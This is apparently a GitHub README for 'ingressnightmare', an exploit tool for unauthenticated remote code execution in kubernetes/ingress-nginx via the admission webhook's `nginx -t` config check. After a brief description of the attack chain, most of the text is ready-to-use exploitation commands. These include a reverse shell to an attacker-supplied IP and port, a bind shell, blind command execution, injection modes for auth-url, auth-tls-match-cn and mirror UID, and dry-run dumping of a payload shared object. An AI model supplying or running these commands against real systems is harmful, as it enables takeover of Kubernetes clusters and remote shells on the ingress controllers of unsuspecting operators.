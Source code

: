 # Ingress Nightmare CVE-2025-1907

## Description

This vulnerability allows remote attackers to execute arbitrary 
code on affected installations of kubernetes/ingress-nginx.
Authentication is not required to exploit this vulnerability.
The specific flaw exists within the handling of HTTP requests.

It is triggered by sending two request. One is a long buffered 
request to the NGINX server in same pod, then nginx will cache
it as a temporary file. The second request is a request to the
admission validating webhook server, which will trigger the 
admission webhook to write a temporary nginx config which contains
the `ssl_engine badso_location;` directive. Then the admission 
webhook will run `nginx -t` to check the config, which will 
triggered remote code execution in the context of the NGINX server.

## Exploitation

```bash
# reverse shell 
./ingressnightmare -m r -r ${ur_ip} -p ${port} -i ${INGRESS} -u ${UPLOADER} 

# bind shell # maybe lost?
./ingressnightmare -m b -b ${port} -i ${INGRESS} -u ${UPLOADER} 

# blind command execution
./ingressnightmare -m c  -c 'date >> /tmp/pwn; echo eson pwn >> /tmp/pwn' -i ${INGRESS} -u ${UPLOADER} 

# for CVE-2025-24514 - auth-url injection
# This is the default mode
./ingressnightmare -m c -c 'your command' -i ${INGRESS} -u ${UPLOADER} --is-auth-url 
# same as 
./ingressnightmare -m c -c 'your command' -i ${INGRESS} -u ${UPLOADER}
 
# for CVE-2025-1097 - auth-tls-match-cn injection,
./ingressnightmare -m c -c 'your command' -i ${INGRESS} -u ${UPLOADER} --is-match-cn --auth-secret-name ${secret_name}

# for CVE-2025-1098 – mirror UID injection -- all available
./ingressnightmare -m c -c 'your command' -i ${INGRESS} -u ${UPLOADER} --is-mirror-uid 

## Advanced usage
# Send only admission request
./ingressnightmare -m c -i ${INGRESS} --only-admission --only-admission-file /tmp/evil.so # --is-auth-url # --is-match-cn # --is-mirror-uid ...

# Send only upload request loop
./ingressnightmare -m c -c "your command" -u ${UPLOADER} --only-upload

# dry run mode
## dry run to lookup payload so
./ingressnightmare -m c -c 'your command' -u ${UPLOADER} --dry-run 
# dump with > /tmp/evil.so

## dry run to lookup raw nginx admission 
./ingressnightmare -m c -i ${INGRESS} --only-admission --only-admission-file /tmp/evil.so --dry-run # --is-auth-url # --is-match-cn # --is-mirror-uid ...

## verbose mode
./ingressnightmare -m c -c 'your command' -i ${INGRESS} -u ${UPLOADER} -v # debug 
./ingressnightmare -m c -c 'your command' -i ${INGRESS} -u ${UPLOADER} -vv # trace
./ingressnightmare -vv # -i ${INGRESS} -u ${UPLOADER} # -m c -c 'your command'
```

https://github.com/user-attachments/assets/415d6b81-b907-4aaa-bd99-18640bd64b2b


